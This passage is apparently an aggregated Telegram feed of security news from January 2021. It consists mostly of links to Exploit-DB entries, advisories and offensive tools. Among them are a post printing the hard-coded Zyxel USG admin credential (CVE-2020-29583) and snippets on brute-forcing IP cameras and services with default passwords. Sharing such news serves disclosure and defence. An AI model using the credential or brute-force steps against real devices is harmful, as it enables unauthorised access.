via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49415">
https://www.exploit-db.com/exploits/49415
</a>
<blockquote>
SmartAgent 3.1.0 - Privilege Escalation.. webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-12 13:53:09`

<blockquote>
[webapps] Cemetry Mapping and Information System 1.0 - Multiple SQL Injections
https://www.exploit-db.com/exploits/49413

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49413">
https://www.exploit-db.com/exploits/49413
</a>
<blockquote>
Cemetry Mapping and Information System 1.0 - Multiple SQL Injections.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-12 13:53:08`

<blockquote>
[webapps] Gila CMS 2.0.0 - Remote Code Execution (Unauthenticated)
https://www.exploit-db.com/exploits/49412

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49412">
https://www.exploit-db.com/exploits/49412
</a>
<blockquote>
Gila CMS 2.0.0 - Remote Code Execution (Unauthenticated).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-12 13:53:07`

<blockquote>
MOSINT - gather information about the target email
https://hakin9.org/mosint-gather-information-about-the-target-email/

via Hakin9 – IT Security Magazine
</blockquote>

<table><tr><td><b>→</b><a href="https://hakin9.org/mosint-gather-information-about-the-target-email/">
https://hakin9.org/mosint-gather-information-about-the-target-email/
</a>
<blockquote>
❓ What is MOSINT?  MOSINT is an OSINT Tool for emails. It helps you gather information about the target email.  More: https://github.com/alpkeskin/mosint  💼 Features:     
Verification Service { Check if email exist }   
Check social accounts with Socialscan   
Check
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-12 10:53:38`

<blockquote>
WHO COVID-19 Mobile App: Improper Input Validation on User's Location on PUT /WhoService/putLocation Could Affect Availability/Falsify Users
https://vulners.com/hackerone/H1:1064149?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss

via Vulners
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1064149?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1064149?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
Summary: Note: I noticed that that the team has fixed issues like an XSS that's caused only from a header value (typically OOS since it's not directly exploitable) https://github.com/WorldHealthOrganization/app/pull/855, so in the spirit of this I'm also reporting another &quot;good-to-fix&quot; issue. On the WHO app, users send approximate location data to the WhoService API: /app/client/flutter/lib/pages/onboarding/location_sharing_page.dart: Future _allowLocationSharing() async {     try {       await Location().requestPermission();       if (await Location().hasPermission() &#61;&#61; PermissionStatus.granted) {         if (await Location().requestService()) {           LocationData location &#61; await Location().getLocation();           Map jitteredLocationData &#61; JitterLocation().jitter(               location.latitude, location.longitude,               5 /kms refers to kilometers/);       await WhoService.putLocation(           latitude: jitteredLocationData['lat'],           longitude: jitteredLocationData['lng']);     } …
</blockquote>
</td></tr></table>

---

# freedomf0x
`2021-01-11 19:53:25`

<blockquote>
GitHub - beardog108/onionr: Private Decentralized Communication Network 🎭 🧅
https://github.com/beardog108/onionr
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/beardog108/onionr">
https://github.com/beardog108/onionr
</a>
<blockquote>
Private Decentralized Communication Network 🎭 🧅. Contribute to beardog108/onionr development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-11 17:53:37`

<blockquote>
Исследователи клонировали ключ безопасности Google Titan, раскрыв уязвимость чипсета
https://habr.com/ru/company/selectel/blog/536798/

via Информационная безопасность – Защита данных
</blockquote>

<table><tr><td><b>→</b><a href="https://habr.com/ru/company/selectel/blog/536798/?utm_campaign=536798&utm_source=habrahabr&utm_medium=rss">
https://habr.com/ru/company/selectel/blog/536798/?utm_campaign=536798&utm_source=habrahabr&utm_medium=rss
</a>
<blockquote>
Уязвимость (CVE-2021-3011) позволяет восстановить первичный ключ шифрования и обойти двухфакторную аутентификацию. Специалисты по безопасности из NinjaLab объяс...
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-11 14:53:19`

<blockquote>
[webapps] Prestashop 1.7.7.0 - 'id_product' Time Based Blind SQL Injection
https://www.exploit-db.com/exploits/49410

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49410?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49410?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Prestashop 1.7.7.0 - 'id_product' Time Based Blind SQL Injection.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-11 14:53:18`

<blockquote>
[local] PortableKanban 4.3.6578.38136 - Encrypted Password Retrieval
https://www.exploit-db.com/exploits/49409

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49409">
https://www.exploit-db.com/exploits/49409
</a>
<blockquote>
PortableKanban 4.3.6578.38136 - Encrypted Password Retrieval.. local exploit for Windows platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-11 14:53:17`

<blockquote>
[webapps] OpenCart 3.0.36 - ATO via Cross Site Request Forgery
https://www.exploit-db.com/exploits/49407

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49407?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49407?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
OpenCart 3.0.36 - ATO via Cross Site Request Forgery.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-11 14:53:16`

<blockquote>
[webapps] WordPress Plugin Custom Global Variables 1.0.5 - 'name' Stored Cross-Site Scripting (XSS)
https://www.exploit-db.com/exploits/49406

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49406">
https://www.exploit-db.com/exploits/49406
</a>
<blockquote>
WordPress Plugin Custom Global Variables 1.0.5 - 'name' Stored Cross-Site Scripting (XSS).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-11 13:53:20`

<blockquote>
[webapps] Cemetry Mapping and Information System 1.0 - Multiple Stored Cross-Site Scripting
https://www.exploit-db.com/exploits/49405

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49405">
https://www.exploit-db.com/exploits/49405
</a>
<blockquote>
Cemetry Mapping and Information System 1.0 - Multiple Stored Cross-Site Scripting.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-11 13:53:19`

<blockquote>
[webapps] EyesOfNetwork 5.3 - LFI
https://www.exploit-db.com/exploits/49404

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49404?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49404?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
EyesOfNetwork 5.3 - LFI.. webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-11 12:53:20`

<blockquote>
[webapps] Anchor CMS 0.12.7 - 'markdown' Stored Cross-Site Scripting
https://www.exploit-db.com/exploits/49403

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49403?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49403?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Anchor CMS 0.12.7 - 'markdown' Stored Cross-Site Scripting.. webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-11 12:53:19`

<blockquote>
[webapps] EyesOfNetwork 5.3 - RCE &amp; PrivEsc
https://www.exploit-db.com/exploits/49402

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49402">
https://www.exploit-db.com/exploits/49402
</a>
<blockquote>
EyesOfNetwork 5.3 - RCE &amp; PrivEsc.. webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# overlamer1
`2021-01-11 10:04:05`

* https://telegra.ph/Avtomaticheskij-brutfors-s-Brutespay-08-21

<blockquote>
Автоматический брутфорс с Brutespay
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/Avtomaticheskij-brutfors-s-Brutespay-08-21">
https://telegra.ph/Avtomaticheskij-brutfors-s-Brutespay-08-21
</a>
<blockquote>
Хочу ознакомить Вас с утилитой, предназначение которой автоматизировать проведение брутфорс-атак по результатам сканирования nmap. источник статьи BruteSpray – использует сгенерированный nmap файл (.gnmap). И использует его для осуществления брутфорса на стандартные связки учетных данных с помощью Medusa. Так же BruteSpray может атаковать и нестандартные порты сервисов, если сканирование проводилось с флагом –sV. Установка: &gt; git clone https://github.com/x90skysn3k/brutespray Зависимости: · Nmap · Python 2.7.x…
</blockquote>
</td></tr></table>

---

# sysadm_in_channel
`2021-01-11 04:46:50`

<blockquote>
ssh-mitm - intercept ssh traffic

https://github.com/ssh-mitm/ssh-mitm&#35;available-modules
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/ssh-mitm/ssh-mitm">
https://github.com/ssh-mitm/ssh-mitm
</a>
<blockquote>
ssh mitm server for security audits supporting public key authentication, session hijacking and file manipulation - ssh-mitm/ssh-mitm
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-10 12:53:20`

<blockquote>
Выявлен метод клонирования ключей из криптографических токенов на базе чипов NXP
https://www.opennet.ru/opennews/art.shtml?num&#61;54385

via OpenNews.opennet.ru: Проблемы безопасности
</blockquote>

<table><tr><td><b>→</b><a href="https://www.opennet.ru/opennews/art.shtml?num=54385">
https://www.opennet.ru/opennews/art.shtml?num=54385
</a>
<blockquote>
Исследователи безопасности из компании NinjaLab разработали новый вид атаки по сторонним каналам (CVE-2021-3011), позволяющей клонировать ECDSA-ключи, хранимые в USB-токенах на базе чипов NXP. Атака продемонстрирована для токенов двухфакторной аутентификции Google Titan на базе чипа NXP A700X, но теоретически применима и для криптографических токенов Yubico и Feitian, использующих тот же чип.
</blockquote>
</td></tr></table>

---

# ctfchat
`2021-01-09 21:51:27`

<blockquote>
github.com/kappactf/mailbox
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/kappactf/mailbox">
https://github.com/kappactf/mailbox
</a>
<blockquote>
Contribute to kappactf/mailbox development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# ctfchat
`2021-01-09 19:20:17`

<blockquote>
https://github.com/DestructiveVoice/DestructiveFarm/blob/master/docs/ru/exploit_format.md
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/DestructiveVoice/DestructiveFarm/blob/master/docs/ru/exploit_format.md">
https://github.com/DestructiveVoice/DestructiveFarm/blob/master/docs/ru/exploit_format.md
</a>
<blockquote>
📢 🔒  Exploit farm for attack-defense CTF competitions - DestructiveVoice/DestructiveFarm
</blockquote>
</td></tr></table>

---

# phd_soc
`2021-01-09 16:17:34`

<blockquote>
https://github.com/hslatman/awesome-threat-intelligence
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/hslatman/awesome-threat-intelligence">
https://github.com/hslatman/awesome-threat-intelligence
</a>
<blockquote>
A curated list of Awesome Threat Intelligence resources - hslatman/awesome-threat-intelligence
</blockquote>
</td></tr></table>

---

# ctfchat
`2021-01-09 14:45:34`

<blockquote>
ну вон мой тред есть у термуксобояр https://github.com/termux/termux-app/issues/1072
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/termux/termux-app/issues/1072">
https://github.com/termux/termux-app/issues/1072
</a>
<blockquote>
The ability to run execve() on files within an application's home directory will be removed in target API &gt; 28. Here is the issue on Google bug tracker: https://issuetracker.google.c...
</blockquote>
</td></tr></table>

---

# overlamer1
`2021-01-09 01:18:36`

* https://graph.org/Hacking-kamer-v-termux-06-10

<blockquote>
Хацкинг камер в termux
</blockquote>

<table><tr><td><b>→</b><a href="https://graph.org/Hacking-kamer-v-termux-06-10">
https://graph.org/Hacking-kamer-v-termux-06-10
</a>
<blockquote>
Дисклеймер: Статья предоставлена исключительно в ознакомительных целях! Мы не несём ответственность за ваши действия. Источник статьи Всем хай! Сегодня я вам покажу один из способов брута ip камер для их взлома через стандартные пароли. Погнали к установке! Сначала нужно обновить все пакеты: pkg update pkg upgrade Теперь установим python3: apt install python Качаем git: apt install git Осталось клонировать репозиторий с скриптом: git clone https://github.com/yan4ikyt/webhack/ После окончания скачивания…
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-08 22:53:28`

<blockquote>
Multiple Command Injections in TP Link routers - CVE-2020-36178
https://www.reddit.com/r/netsec/comments/kska5g/multiple_command_injections_in_tp_link_routers/

via /r/netsec - Information Security News &amp; Discussion
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/kska5g/multiple_command_injections_in_tp_link_routers/">
https://www.reddit.com/r/netsec/comments/kska5g/multiple_command_injections_in_tp_link_routers/
</a>
<blockquote>
Posted in r/netsec by u/_kawhl • 160 points and 33 comments
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-08 14:53:37`

<blockquote>
RadareEye – A tool made for specially scanning nearby devices [BLE,Bluetooth &amp; Wmadeifi] and execute our given command on our system when the target device comes in between range.
https://hakin9.org/radareye-tool-made-for-specially-scanning/

via Hakin9 – IT Security Magazine
</blockquote>

<table><tr><td><b>→</b><a href="https://hakin9.org/radareye-tool-made-for-specially-scanning/">
https://hakin9.org/radareye-tool-made-for-specially-scanning/
</a>
<blockquote>
NOTE:- RadareEye Owner will be not responsible if any user performs malicious activities using this tool. Use it for Learning purpose only.     
  Installation of RadareEye :      git clone https://github.com/souravbaghz/RadareEye  Usage:  ./radare &lt;mac_addr&gt; &lt;option&gt;  Available Options Are:     
-blue Bluetooth RadareEye
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-08 14:53:35`

<blockquote>
[webapps] Wordpress Plugin wpDiscuz 7.0.4 - Unauthenticated Arbitrary File Upload (Metasploit)
https://www.exploit-db.com/exploits/49401

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49401">
https://www.exploit-db.com/exploits/49401
</a>
<blockquote>
Wordpress Plugin wpDiscuz 7.0.4 - Unauthenticated Arbitrary File Upload (Metasploit).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-08 13:53:44`

<blockquote>
[webapps] WordPress Plugin Autoptimize 2.7.6 - Authenticated Arbitrary File Upload (Metasploit)
https://www.exploit-db.com/exploits/49399

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49399">
https://www.exploit-db.com/exploits/49399
</a>
<blockquote>
WordPress Plugin Autoptimize 2.7.6 - Authenticated Arbitrary File Upload (Metasploit).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-08 13:53:41`

<blockquote>
[webapps] Apache Flink 1.11.0 - Unauthenticated Arbitrary File Read (Metasploit)
https://www.exploit-db.com/exploits/49398

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49398">
https://www.exploit-db.com/exploits/49398
</a>
<blockquote>
Apache Flink 1.11.0 - Unauthenticated Arbitrary File Read (Metasploit). CVE-2020-17519 . webapps exploit for Java platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-08 13:53:40`

<blockquote>
[webapps] Cockpit Version 234 - Server-Side Request Forgery (Unauthenticated)
https://www.exploit-db.com/exploits/49397

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49397?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49397?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Cockpit Version 234 - Server-Side Request Forgery (Unauthenticated).. webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-08 12:53:17`

<blockquote>
[webapps] Online Doctor Appointment System 1.0 - Multiple Stored XSS
https://www.exploit-db.com/exploits/49396

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49396?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49396?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Online Doctor Appointment System 1.0 - Multiple Stored XSS.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-08 12:53:16`

<blockquote>
[webapps] Life Insurance Management System 1.0 - Multiple Stored XSS
https://www.exploit-db.com/exploits/49395

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49395?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49395?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Life Insurance Management System 1.0 - Multiple Stored XSS.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-08 12:53:14`

<blockquote>
[local] dnsrecon 0.10.0 - CSV Injection
https://www.exploit-db.com/exploits/49394

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49394?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49394?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
dnsrecon 0.10.0 - CSV Injection.. local exploit for Python platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-08 09:53:18`

<blockquote>
Trovent Security Advisory 2010-01 / CVE-2020-28208: Rocket.Chat email address enumeration vulnerability
http://seclists.org/fulldisclosure/2021/Jan/28

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/28">
https://seclists.org/fulldisclosure/2021/Jan/28
</a>
</td></tr></table>

---

# defcon_news
`2021-01-08 09:53:17`

<blockquote>
Open-Xchange Security Advisory 2021-01-07
http://seclists.org/fulldisclosure/2021/Jan/27

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/27">
https://seclists.org/fulldisclosure/2021/Jan/27
</a>
</td></tr></table>

---

# defcon_news
`2021-01-08 09:53:15`

<blockquote>
Backdoor.Win32.NinjaSpy.c / Remote Stack Buffer Overflow
http://seclists.org/fulldisclosure/2021/Jan/26

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/26">
https://seclists.org/fulldisclosure/2021/Jan/26
</a>
</td></tr></table>

---

# defcon_news
`2021-01-08 09:53:13`

<blockquote>
Backdoor.Win32.Xtreme.yvp / Insecure Permissions EoP
http://seclists.org/fulldisclosure/2021/Jan/25

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/25">
https://seclists.org/fulldisclosure/2021/Jan/25
</a>
</td></tr></table>

---

# defcon_news
`2021-01-08 09:53:12`

<blockquote>
Backdoor.Win32.Agent.dcbh / Insecure Permissions EoP
http://seclists.org/fulldisclosure/2021/Jan/24

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/24">
https://seclists.org/fulldisclosure/2021/Jan/24
</a>
</td></tr></table>

---

# sysadm_in_channel
`2021-01-08 07:36:40`

<blockquote>
Рекомендации Zyxel по безопасности для уязвимости системной учетной записи CVE-2020-29583

https://support.zyxel.eu/hc/ru/articles/360018524720

FAQ по уязвимости от вендора:

http://support.zyxel.eu/hc/ru/articles/360018610460
</blockquote>

<table><tr><td><b>→</b><a href="https://support.zyxel.eu/hc/ru/articles/360018524720">
https://support.zyxel.eu/hc/ru/articles/360018524720
</a>
<blockquote>
CVE: CVE-2020-29583
Обновлено: 07.01 - 15:00 CET
Резюме
Zyxel выпустила исправление для уязвимости системной учетной записи затрагивающей шлюзы безопасности и контроллеры точек доступа о которой не...
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-07 22:53:39`

<blockquote>
[webapps] CRUD Operation 1.0 - Multiple Stored XSS
https://www.exploit-db.com/exploits/49393

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49393?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49393?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
CRUD Operation 1.0 - Multiple Stored XSS.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-07 22:53:38`

<blockquote>
[webapps] ECSIMAGING PACS 6.21.5 - SQL injection
https://www.exploit-db.com/exploits/49392

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49392">
https://www.exploit-db.com/exploits/49392
</a>
<blockquote>
ECSIMAGING PACS 6.21.5 - SQL injection.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-07 22:53:37`

<blockquote>
[webapps] Curfew e-Pass Management System 1.0 - Stored XSS
https://www.exploit-db.com/exploits/49391

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49391?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49391?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Curfew e-Pass Management System 1.0 - Stored XSS.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-07 22:53:36`

<blockquote>
[webapps] Cockpit CMS 0.6.1 - Remote Code Execution
https://www.exploit-db.com/exploits/49390

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49390">
https://www.exploit-db.com/exploits/49390
</a>
<blockquote>
Cockpit CMS 0.6.1 - Remote Code Execution.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-07 22:53:35`

<blockquote>
[webapps] Employee Record System 1.0 - Unrestricted File Upload to Remote Code Execution
https://www.exploit-db.com/exploits/49389

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49389?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49389?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Employee Record System 1.0 - Unrestricted File Upload to Remote Code Execution.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-07 21:53:35`

<blockquote>
[webapps] ECSIMAGING PACS 6.21.5 - Remote code execution
https://www.exploit-db.com/exploits/49388

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49388?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49388?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
ECSIMAGING PACS 6.21.5 - Remote code execution.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-07 21:53:33`

<blockquote>
[webapps] iBall-Baton WRA150N Rom-0 Backup - File Disclosure (Sensitive Information)
https://www.exploit-db.com/exploits/49386

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49386?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49386?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
iBall-Baton WRA150N Rom-0 Backup - File Disclosure (Sensitive Information).. webapps exploit for Hardware platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-07 19:53:28`

<blockquote>
Directly related to today's main story on CPE/CVEs - Code Exec in Cisco Jabber, all platforms https://nvd.nist.gov/vuln/detail/CVE-2020-26085, (Thu, Jan 7th)
https://isc.sans.edu/diary/rss/26960

via SANS Internet Storm Center, InfoCON: green
</blockquote>

<table><tr><td><b>→</b><a href="https://isc.sans.edu/diary/rss/26960">
https://isc.sans.edu/diary/rss/26960
</a>
<blockquote>
Directly related to today's main story on CPE/CVEs - Code Exec in Cisco Jabber, all platforms https://nvd.nist.gov/vuln/detail/CVE-2020-26085, Author: Rob VandenBrink
</blockquote>
</td></tr></table>

---

# cyberoffru
`2021-01-07 19:51:34`

<blockquote>
https://github.com/telegramdesktop/tdesktop/issues/8953

Никак, судя по всему
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/telegramdesktop/tdesktop/issues/8953">
https://github.com/telegramdesktop/tdesktop/issues/8953
</a>
<blockquote>
As of right now, it is only possible for admins of the group to be anonymous if the creator of the group enables that option for them. Better way would be to allow every admin to switch this option...
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-07 13:53:47`

<blockquote>
Analyzing CVE-2020-16040 - A V8 JIT Compiler Bug
https://www.reddit.com/r/netsec/comments/ksa8an/analyzing_cve202016040_a_v8_jit_compiler_bug/

via /r/netsec - Information Security News &amp; Discussion
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/ksa8an/analyzing_cve202016040_a_v8_jit_compiler_bug/">
https://www.reddit.com/r/netsec/comments/ksa8an/analyzing_cve202016040_a_v8_jit_compiler_bug/
</a>
<blockquote>
Posted in r/netsec by u/farazsth98 • 6 points and 0 comments
</blockquote>
</td></tr></table>

---

# ctfchat
`2021-01-07 12:24:30`

<blockquote>
https://github.com/SecureAuthCorp/impacket
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/SecureAuthCorp/impacket">
https://github.com/SecureAuthCorp/impacket
</a>
<blockquote>
Impacket is a collection of Python classes for working with network protocols. - SecureAuthCorp/impacket
</blockquote>
</td></tr></table>

---

# freedomf0x
`2021-01-07 11:16:57`

<blockquote>
CVE-2020-29583 Zyxel USG Hard-Coded Admin Creds

The zyfwp user is a Unix user with password PrOw!aN_fXp. The user can log in to an affected Zyxel device’s web interface and SSH service. Admin access to a management interface is granted.

https://attackerkb.com/topics/FJI292KsKw/cve-2020-29583-zyxel-usg-hard-coded-admin-creds?referrer&#61;notificationEmail&#35;rapid7-analysis
</blockquote>

<table><tr><td><b>→</b><a href="https://attackerkb.com/topics/FJI292KsKw/cve-2020-29583-zyxel-usg-hard-coded-admin-creds?referrer=notificationEmail">
https://attackerkb.com/topics/FJI292KsKw/cve-2020-29583-zyxel-usg-hard-coded-admin-creds?referrer=notificationEmail
</a>
<blockquote>
Firmware version 4.60 of Zyxel USG devices contains an undocumented account (zyfwp) with an unchangeable password. The password for this account can be found i…
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-07 00:53:46`

<blockquote>
Re: [SECURITY] CVE-2013-4444 Remote Code Execution in Apache Tomcat
http://seclists.org/fulldisclosure/2021/Jan/23

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/23">
https://seclists.org/fulldisclosure/2021/Jan/23
</a>
</td></tr></table>

---

# defcon_news
`2021-01-07 00:53:45`

<blockquote>
[KIS-2021-01] IPS Community Suite &lt;&#61;4.5.4 (Downloads REST API) SQL Injection Vulnerability
http://seclists.org/fulldisclosure/2021/Jan/22

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/22">
https://seclists.org/fulldisclosure/2021/Jan/22
</a>
</td></tr></table>

---

# defcon_news
`2021-01-07 00:53:43`

<blockquote>
Backdoor.Win32.Zombam.k / Remote Stack Buffer Overflow
http://seclists.org/fulldisclosure/2021/Jan/21

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/21">
https://seclists.org/fulldisclosure/2021/Jan/21
</a>
</td></tr></table>

---

# defcon_news
`2021-01-07 00:53:42`

<blockquote>
Files.com - Auth Bypass (Fat Client)
http://seclists.org/fulldisclosure/2021/Jan/20

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/20">
https://seclists.org/fulldisclosure/2021/Jan/20
</a>
</td></tr></table>

---

# defcon_news
`2021-01-07 00:53:41`

<blockquote>
CVE-2020-24386: IMAP hibernation allows accessing other peoples mail
http://seclists.org/fulldisclosure/2021/Jan/19

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/19">
https://seclists.org/fulldisclosure/2021/Jan/19
</a>
</td></tr></table>

---

# defcon_news
`2021-01-07 00:53:39`

<blockquote>
CVE-2020-24386: IMAP hibernation allows accessing other peoples mail
http://seclists.org/fulldisclosure/2021/Jan/18

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/18">
https://seclists.org/fulldisclosure/2021/Jan/18
</a>
</td></tr></table>

---

# defcon_news
`2021-01-06 19:53:23`

<blockquote>
[webapps] Sonatype Nexus 3.21.1 - Remote Code Execution (Authenticated)
https://www.exploit-db.com/exploits/49385

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49385">
https://www.exploit-db.com/exploits/49385
</a>
<blockquote>
Sonatype Nexus 3.21.1 - Remote Code Execution (Authenticated). CVE-2020-10199 . webapps exploit for Java platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-06 19:53:22`

<blockquote>
[local] H2 Database 1.4.199 - JNI Code Execution
https://www.exploit-db.com/exploits/49384

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49384">
https://www.exploit-db.com/exploits/49384
</a>
<blockquote>
H2 Database 1.4.199 - JNI Code Execution.. local exploit for Java platform
</blockquote>
</td></tr></table>

---

# defcon_news
